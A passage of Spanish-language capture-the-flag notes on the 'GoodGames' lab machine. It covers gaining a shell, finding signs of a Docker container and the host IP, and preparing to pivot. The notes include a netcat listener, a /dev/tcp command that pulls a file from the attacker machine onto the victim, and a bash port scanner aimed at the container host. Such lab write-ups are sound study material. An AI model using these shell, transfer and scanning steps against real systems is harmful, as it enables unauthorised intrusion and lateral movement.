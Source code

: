 Mientras nos ponemos en escucha por el puerto 443 en nuestra maquina con el comando
`nc -nlvp 443`
# Accedemos a la maquina y vemos la primera flag
![[Goodgames14.png]]
![[Goodgames15.png]]
Tenemos que tener en cuenta el home de augustus, que puede ser relevante en un futuro

-------
# [[Apuntes Directo/Herramientas-Comandos/Tratamiento de la TTY|Tratamiento de la TTY]]

----

# [[Salir del contenedor docker]]
Tenemos la sospecha de que estamos en un contenedor, por el nombre despues de root@3a453ab39d3d
Confirmamos que estamos en un contenedor usando `hostname -I` somos la ip 172.19.0.2     [[hostname -I]]
![[Goodgames16.png]]

Usamos el comando `mount | grep augustus` y nos dice que la particion del disco duro esta montada en /dev/sda1, lo cual no es de relevancia, en el /etc/group no figura el grupo 1000, por lo tanto pensamos que es un grupo de la maquina host. y en el comando `route -n` nos muestra que a la direccion ip 172.19.0.1 es donde va todo nuestro trafico. Asi que asumimos que es la ip de la maquina host          [[mount]] [[route -n]]
![[Goodgames17.png]]
Mandamos un ping a 172.19.0.1, y nos responde
![[Goodgames18.png]]

Nos vamos a mandar el archivo portScanner.sh desde nuestra maquina a la maquina victima
```shell
Nuestra maquina: nc -nlvp 443 < portScanner.sh
Maquina victima: cat < /dev/tcp/10.10.16.3/443 > portScanner.sh
Y despues despues desde la maquina victima, darle permiso de ejecucion con chmod +x portScanner.sh

```
```python
#!/bin/bash

function ctrl_c(){
    echo "[!] Saliendo.."
    exit 1
}

trap ctrl_c INT

for i in $(seq 1 65535); do
    timeout 1 bash -c "echo '' > /dev/tcp/172.19.0.1/$i" 2>/dev/null && echo "[!]Puerto abierto: $i" &

done
```
